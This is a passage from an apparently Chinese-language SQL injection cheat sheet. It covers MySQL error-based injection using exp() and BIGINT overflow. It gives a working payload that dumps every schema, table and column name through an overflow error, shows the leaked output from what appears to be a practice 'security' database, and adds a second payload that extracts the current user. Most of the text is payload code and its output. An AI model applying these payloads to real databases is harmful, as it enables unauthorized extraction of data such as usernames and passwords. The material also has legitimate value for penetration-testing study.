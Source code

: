         # 这里可以直接从mysql shell查询出来：
        select exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x));
        
        # 返回结果如下
        ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '000
        security::emails::id
        security::emails::email_id
        security::referers::id
        security::referers::referer
        security::referers::ip_address
        security::uagents::id
        security::uagents::uagent
        security::uagents::ip_address
        security::uagents::username
        security::users::id
        security::users::username
        security::users::password' from dual)))'
        
        # 注意上述语句也可以在其他增删改查均可以注入哦，其中exp需要在mysql5.5.5及以上版本。
        ```
        
        最终语句如下：
        ```sql
        exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))
        ```
        
- `select !(select * from (select user())x) - ~0;`

    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'
    
    注意这里是减号。
    
    **基于BIGINT溢出错误的SQL注入**：<https://www.cnblogs.com/lcamry/articles/5509112.html>
    
    * 0x01 概述
        
        数据类型BIGINT的长度为8字节，也就是说，长度为64比特，最大数值为9223372036854775807。
    
        ~0是逐位取反，得到的是无符号最大值，为18446744073709551615。
    
    * 0x02 注入技术
        
        如果我们对~0进行加减运算的话，会导致BIGINT溢出错误。因此，我们利用子查询引起BIGINT溢出，设法提取数据。
        
        我们知道，一个查询成功返回，其返回值为0，逻辑非运算得1。示例：
        
        `mysql> select !(select*from(select user())x);`
    
        | !(select*from(select user())x) |
        |--------------------------------|
        |                              1 |
    